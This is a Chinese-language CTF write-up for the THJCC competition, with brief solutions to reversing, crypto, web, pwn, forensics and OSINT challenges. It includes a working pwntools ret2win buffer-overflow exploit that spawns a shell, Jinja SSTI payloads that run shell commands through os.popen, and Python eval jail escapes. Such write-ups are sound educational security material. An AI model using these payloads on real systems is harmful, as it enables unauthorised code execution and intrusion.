


# THJCC writeup

答題數`24/34`

[toc]

## Baby C



把 a[] 全部再 xor 一次 120 得到 flag

## PYC REVERSE

用 online tool reverse 得到程式碼發現會執行 `xor1234` 再 xor  回去就會得到 flag

## baseball

```!
        0010172a 75 0c           JNZ        LAB_00101738
        0010172c b8 00 00        MOV        EAX,0x0
                 00 00
        00101731 e8 0c fd        CALL       miss       
                 ff ff
        00101736 eb 0a           JMP        LAB_00101742
```

decompile 後把 0x10172a 的 jnz 改成 jz 進入 miss 取得 flag

## Not Apple

decompil 然後直接找 THJCC 找到

```java
    public String flag() {
        return "THJCC{l4zy_@string/real_flag==}";
    }
```

再找到 real_flag 把 `@string/real_flag` 換掉

## nc

連上去然後回答 Rick Astley 取得 flag

## NPSC

$O(n^2)$ 硬炸不知道為什麼沒 $TLE$ 就拿到 flag 了

```python
from pwn import *

def max_score(balls):
    max_score = 0
    for i in range(len(balls)):
        score = balls[i]
        for j in range(i+1, len(balls)):
            if score >= balls[j]:
                score += balls[j]
            else:
                break
        max_score = max(max_score, score)
    return max_score


host = "23.146.248.36"
port = 30003

conn = remote(host, port)

conn.recvuntil(b'=============== ROUND 1 ===============\n')
for i in range(32):
    s = conn.recvline().decode()
    if 'ROUND' in s:
        continue
    s = eval(s)
    print(max_score(s))
    conn.sendline(str(max_score(s)).encode())
    print(conn.recvline())
print('-------------------')
conn.interactive()
```


## Ret2func

用 ghidra 看到 win 函式裡面會 call system("sh") 用 buffer overflow 直接把 return address 蓋成 0x401216 會遇到對齊的問題所以在前面加一個 ret。



```python
from pwn import *


p= remote('172.104.114.9', 30004)

win = 0x401216
retaddr = 0x40101a

buf = b'A'*48 + b'B'*8 + p64(retaddr) + p64(win)


p.sendlineafter(b'if you want',b'y')

p.sendline(buf)

p.interactive()
```

## 博元婦產科

用 base64 decode 然後發現是 Rot7 取得 flag

## baby RSA

發現 e 很小所以直接開三方

```python!
from gmpy2 import *
from Crypto.Util.number import *

n=82905415164584389498448026225415348174116889583631879848801181149026319038674433017502044002549515598507479948874775953835212967198538225241428587373756775740055748735130854340971352961320030869329470225485298576771293717521094156379711969189220894688314434350844834550493516522022887482934023393062055248939
e=3
c=1235510871330310226418475368687292699345971692547143305272739246584681306551612197261843363110934247264155805712224284359950318209523214607727920666576650829438419066769737275066742744939310467207427865797663652787759689887376716363284875754160160311515163574335764507693157
flag = iroot(c , 3)[0]

print(long_to_bytes(flag).decode())
```


## JPG^PNG=?

png 的前 7 byte 是固定的

```python
from itertools import cycle

def xor(a, b):
    return [i^j for i, j in zip(a, cycle(b))]

KEY= open("a.png", "rb").read()
FLAG = open("enc.txt", "rb").read()

key=[KEY[0], KEY[1], KEY[2], KEY[3], KEY[4], KEY[5], KEY[6], KEY[7]]

enc = bytearray(xor(FLAG,key))

open('flag.jpg', 'wb').write(enc)

```

## SSS.GRIDMAN

`poly()` 是一個一元二次函數 secret 是常數項 題目給了三點解一下就可以求出 secret

## iRSA

用 factordb 可以分解 N 再把 Int_to_Complex() 反著用出 Complex_to_Int() 就可以拿到 flag

```python
from Crypto.Util.number import *
from collections import namedtuple

# define complex number
Complex=namedtuple("Complex", "r c")

# define complex multiplication
def Complex_Mul(P, Q):
    R=P.r*Q.r-P.c*Q.c
    C=P.r*Q.c+Q.r*P.c
    return Complex(R, C)

# define how to turn message into complex number
def Int_to_Complex(x):
    R=0
    C=0
    cnt=0
    while(x>0):
        if(cnt%2==0):
            R+=(x%2)<<cnt
        else:
            C+=(x%2)<<cnt
        x>>=1
        cnt+=1
    return Complex(R, C)

def Complex_to_Int(x):
    R = x.r
    C = x.c
    ret = 0
    for i in range(max(R.bit_length(),C.bit_length())):
        if i % 2 == 0:
            ret |= ((R >> i) & 1) << i
        else:
            ret |= ((C >> i) & 1) << i
    return ret

C=Complex(r=11180409569983135167870808350941041186679170032093322670886535621583215684643439433171870814076780522535389424356663422589579511334717331883341071371926332,c=36539634424149210411782026672623223569184603415102598458770146358389114657393818955768684304871559745898404778972824982800749363800263199954364462993005556)

p = 101215468079183132064927386006997214816266070286653603581590482424957134728767
q = 115354037749818467787883117855058744112232663945914692321109944593585909198619

P=Complex(p, 2*q)
Q=Complex(q, 2*p)
N=Complex_Mul(P, Q) #-3p.r*q.r , 2p^2 + 2 q^2

phi = 2 * (p-1) * (q-1)
a = pow(C.r,inverse(65537,phi),N.r*-1)

phi = 4*4*1360*106656*(1670005938833-1)*(32726924786681765694913405433-1)*(59370533326452572495738825802114715310690270185635375950358473694250436475299292366869808483485927589533-1)
b = pow(C.c,inverse(65537,phi),N.c)

ans = Complex(a,b)

print(long_to_bytes(Complex_to_Int(ans)))
```


## Empty

用開發者工具看到 cookie 裡有 flag1 然後 html 裡有一段被註解的路徑進入取得 flag2

## Blog

通靈看到密碼是 `iloveshark`

## Simplify

登進去把 cookie 裡的 username 改成 admin 題目提示是 ssti 上網找 payload
``{{ cycler.__init__.__globals__.os.popen('ls').read() }}``
`{{ cycler.__init__.__globals__.os.popen('cat flag').read() }}`

## 原神帳號外流

用 wireshark 過濾 `http.request.uri=="/login"` 找到裡面沒登入失敗的那組帳密登進去

## PyJail-0

看程式碼使用了 eval() 上網找 payload `__import__('os').system('ls')`
取得 flag

## Geoguesser???

找圖片上的電話找到補習班用 google map 找到位置然後開始通靈找 flag

## I want to go to Japan

google 找　湯の川　聖羅　找到湯倉神社

## 出題者大合照

用 steghide 找到裡面藏的 flag.txt

## PyJail-1

先用
`eval(input())`
然後
`__import__('os').system('ls')`
取得 shell


## Evil Form

從 script 可以找到三段 flag flag2 用 rot47 decode
> 提示的 history 拼錯我還以為那是什麼特別的東西==

## Welcome

tag 和 rule 裡面有藏 flag

## Discord

機器人身份組、指令、badge 都有藏 flag
